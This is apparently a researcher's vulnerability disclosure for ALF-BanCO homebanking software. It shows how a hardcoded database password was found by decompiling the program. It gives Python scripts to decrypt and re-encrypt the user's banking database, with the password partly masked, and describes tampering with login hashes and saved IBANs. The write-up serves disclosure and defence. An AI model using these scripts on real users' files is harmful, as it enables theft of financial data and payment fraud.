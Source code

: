## Overview

ALF-BanCo is a homebanking software that manages accounts in various banks, Paypal accounts and many credit cards. The software saves transactions on the PC for as long as the user requires.

## Discovered By

**[Nicolò Tescari](https://www.linkedin.com/in/nicol%C3%B2-tescari-913390131/) ([@ph0nkybit](https://twitter.com/ph0nkybit))** of **[Cybertech](https://www.cybertech.eu/)**

## Proof of Concept (PoC)

The application uses a hardcoded default password to encrypt the local SQLite database containing the user's data. An attacker who gains physical or remote access to the user's machine can exploit this vulnerability to read and modify the data.

The vulnerability was discovered on **ALF-BanCO 8.2.3 (Profi version)**. According to the vendor, it is present up to version **8.2.5**. A patch has been released starting with version **8.3.0**.

At the request of the vendor, the password has been partially obscured.

* * *

After installing the application and configuring our user, the file “**HbDat001.alfdb8**” is created inside the following path: “**C:\\Users\\&lt;username&gt;\\AppData\\Roaming\\ALFBanCo8\\Daten**”.

![db_path](https://raw.githubusercontent.com/ph0nkybit/proof-of-concepts/main/Use_Of_Hardcoded_Password_In_ALF-BanCO_8.2.x/images/db_path.png)

Using ILSpy , the various DLL libraries and application executables inside “**C:\\Program Files (x86)\\ALFBanCo8**” were decompiled.

Looking for the extension "**.alfdb8**" we notice that this is assigned to the “**DB_ENDING**” constant, inside “**AlfOption.dll**”. This suggests that the file is used as a database.

![DB_ENDING](https://github.com/ph0nkybit/proof-of-concepts/blob/main/Use_Of_Hardcoded_Password_In_ALF-BanCO_8.2.x/images/DB_ENDING.png)

Moreover, the “**IsSqliteDB**” function, inside “**AlfLogin.dll**” returns **true** if the file extension is “**.alfdb8**”, confirming that “**HbDat001.alfdb8”** is a SQLite DB.

![IsSqliteDB](https://raw.githubusercontent.com/ph0nkybit/proof-of-concepts/main/Use_Of_Hardcoded_Password_In_ALF-BanCO_8.2.x/images/IsSqliteDB.png)

As we can see the database cannot be simply opened by an application like DB Browser for SQLite because it is probably encrypted.

![DBBrowser](https://raw.githubusercontent.com/ph0nkybit/proof-of-concepts/main/Use_Of_Hardcoded_Password_In_ALF-BanCO_8.2.x/images/DB_Browser.png)

Within the “**AlfNetDB.dll**” library, we notice the “**OpenSQLite**” function, which takes as arguments two strings, the **db** and the **password**.

![OpenSQLite](https://raw.githubusercontent.com/ph0nkybit/proof-of-concepts/main/Use_Of_Hardcoded_Password_In_ALF-BanCO_8.2.x/images/OpenSQLite.png)

The function is used by the the following constructor, whose variable “**bSQLCrypt**” is set to **true**. This confirms that the database is probably encrypted.

![bSQLCrypt](https://raw.githubusercontent.com/ph0nkybit/proof-of-concepts/main/Use_Of_Hardcoded_Password_In_ALF-BanCO_8.2.x/images/bSQLCrypt.png)

The constructor, is in turn used by the “**SQLCheckPassword**” function, inside “**AlfLogin.dll**”.

As we can see, there’s a **hardcoded password** among the arguments of the constructor.

![SQLCheckPassword](https://raw.githubusercontent.com/ph0nkybit/proof-of-concepts/main/Use_Of_Hardcoded_Password_In_ALF-BanCO_8.2.x/images/SQLCheckPassword.png)

Looking for the password, we can see that it is in fact assigned to the **DB_PWD** constant within the “**Procs”** class of the same DLL.

![DB_PWD](https://raw.githubusercontent.com/ph0nkybit/proof-of-concepts/main/Use_Of_Hardcoded_Password_In_ALF-BanCO_8.2.x/images/DB_PWD.png)

Returning to the “**OpenSQLite**” function, we also note that the “**System.Data.SQLite**” library is being used. This library also provides support for encrypting SQLite databases and as we will see below this type of encryption is actually used on the "**HbDat001.alfdb8**" database.

![System.Data.SQLite](https://raw.githubusercontent.com/ph0nkybit/proof-of-concepts/main/Use_Of_Hardcoded_Password_In_ALF-BanCO_8.2.x/images/System.Data.SQLite.png)

The following Python2 script can be used to decrypt the database.

Copying “**HbDat001.alfdb8**” to a new directory and running the script, creates “**HbDat001.sqlite**” in the same directory (thanks to https://gist.github.com/zuccaro for the original Python code).

```
def decryptSystemDataSQLite(file, password):

    from Crypto.Hash import SHA 
    from Crypto.Cipher import ARC4
    from struct import unpack
    from tempfile import NamedTemporaryFile
    from shutil import copyfile
    from os import remove
    ret = None
    with open(file,'rb') as f:
        key = SHA.new(password).digest()[:16] 
        header = ARC4.new(key).decrypt(f.read(1024)) 
        if header[0:15] == 'SQLite format 3': 
            print("Valid!")
            declared_ps = unpack('>H',header[16:18])[0] 
            if declared_ps == 1: 
                declared_ps = 65536 
            t = NamedTemporaryFile(delete=False,suffix='.sqlite')
            f.seek(0) 
            while True:
                block = f.read(declared_ps)
                if not block: 
                    break  
                t.write(ARC4.new(key).decrypt(block)) 
            t.close() 
            ret = t.name 
            copyfile(ret, file.split('.')[0] + '.sqlite')
            remove(ret)
    return ret
    
decryptSystemDataSQLite('HbDat001.alfdb8','Wbf*************')
```

![example_usage](https://raw.githubusercontent.com/ph0nkybit/proof-of-concepts/main/Use_Of_Hardcoded_Password_In_ALF-BanCO_8.2.x/images/example_usage.png)

Within the database we can find information about the transfers made.

![database_transfers](https://raw.githubusercontent.com/ph0nkybit/proof-of-concepts/main/Use_Of_Hardcoded_Password_In_ALF-BanCO_8.2.x/images/database_transfers.png)

Accounts data.

![database_accounts](https://raw.githubusercontent.com/ph0nkybit/proof-of-concepts/main/Use_Of_Hardcoded_Password_In_ALF-BanCO_8.2.x/images/database_accounts.png)

The username and password hash used by the user to login into the application.

![database_credentials](https://raw.githubusercontent.com/ph0nkybit/proof-of-concepts/main/Use_Of_Hardcoded_Password_In_ALF-BanCO_8.2.x/images/database_credentials.png)

In addition to being able to read user data, an attacker could also copy the “**HbDat001.alfdb8**” file on his machine, decrypt it, change the password hash on the database with one of his choise, re-encrypt the database, download the application and choose to restore from a backup during the initial setup, to access the victim’s data from the application without knowing the user's password.

The following Python2 script can be used to re-encrypt the database.

```
def encryptSystemDataSQLite(file, password):

    from Crypto.Hash import SHA 
    from Crypto.Cipher import ARC4
    from struct import unpack
    from tempfile import NamedTemporaryFile
    from shutil import copyfile
    from os import remove
    ret = None
    with open(file,'rb') as f:
        key = SHA.new(password).digest()[:16]
        header = (f.read(1024))
        declared_ps = unpack('>H',header[16:18])[0]
        if declared_ps == 1:
            declared_ps = 65536
        t = NamedTemporaryFile(delete=False,suffix='.alfdb8')
        f.seek(0)
        while True:
            block = f.read(declared_ps)
            if not block:
                break
            t.write(ARC4.new(key).encrypt(block))
        t.close()
        ret = t.name
        copyfile(ret, file.split('.')[0] + '.alfdb8')
        remove(ret)
    return ret
    
encryptSystemDataSQLite('HbDat001.sqlite','Wbf*************')
```
The malicious user could also carry out phishing attacks by modifying IBANs (for example in transactions saved as favorites), re-encrypting the database and replacing it with the user's legitimate one. If when the user send a payment he does not notice that the IBANs of a transaction saved as a favorite have been replaced, he could send the payment to the wrong IBAN.

